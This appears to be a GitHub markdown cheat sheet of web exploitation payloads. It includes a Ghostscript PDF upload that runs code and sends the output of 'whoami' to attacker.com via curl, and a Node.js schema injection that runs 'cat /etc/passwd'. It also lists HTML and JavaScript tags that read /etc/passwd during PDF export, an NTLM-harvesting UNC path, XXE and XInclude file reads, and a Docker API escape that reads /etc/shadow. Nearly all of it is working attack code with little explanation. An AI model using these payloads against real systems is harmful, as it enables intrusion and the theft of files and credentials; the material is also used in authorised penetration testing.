 # Web Exploitation Methods

## Enumeration

### HTTP PROBE using cURL

```
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### PHP Disabled Function Check

```
<?php var_dump(explode(',',ini_get('disable_functions'))); ?>
```

## Exploitation

### PDF RCE

[https://www.openwall.com/lists/oss-security/2018/08/21/2](https://www.openwall.com/lists/oss-security/2018/08/21/2)

```
Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
Content-Type: application/pdf

%!PS
currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
.putdeviceparams
quit
```

### Node.JS JSON Validation Command Injection (RCE)

```
// https://hackerone.com/reports/894308
const schema = {
  type: 'object',
  properties: {
    'x[console.log(process.mainModule.require(`child_process`).execSync(`cat /etc/passwd`).toString(`utf-8`))]': {
      required: true,
      type:'string'
    }
  },
}
```

### PDF Export Injection / HTML Injection / Server Side Request Forgery (SSRF) Local File Read

#### Using HTML

##### iframe

```
<iframe src="file:///C:/windows/system32/drivers/etc/hosts height=1000 width=1000/>
```

Via [securityonline.info](https://securityonline.info/export-injection-new-server-side-vulnerability/)

##### object

```
<object data=”http://127.0.0.1:8443”/>
```

##### link

```
# local file read
<link rel=attachment src="file:///etc/passwd">
# to extract
pdfdetach -saveall vuln.doc
```

#### Using Javascript

```
<script>x=new XMLHttpRequest; 
x.onload=function(){ document.write(this.responseText) }; 
x.open("GET","file:///etc/passwd"); x.send(); </script> 
```

Via [noob.ninja](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) 

#### object

```
<html>
  <body>
    <object data="file:///etc/passwd"/>
  </body>
</html>
```

#### portal

```
<html>
  <body>
    <portal src="file:///etc/passwd" id=portal></portal>
  </body>
</html>
```

#### Harvesting Credentials

UNC + WebDav can be used to harvest NTLM on arbitrary ports allowed through the firewall.

```
# WebDav HTTP UNC Path
\\workstation1@8080\mdsec.png
```

- Source: https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

### XXE

- [XXE inside a SOAP node](https://twitter.com/agarri_fr/status/656440244116574208?lang=en):

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://0x0:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

Using [xinclude](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xinclude-attacks)

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### Misc

Docker API (2375/tcp) Easy RCE by PTSwarm

```
# exploit
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

# file access
cat /mnt/etc/shadow

# RCE
chroot /mnt
```
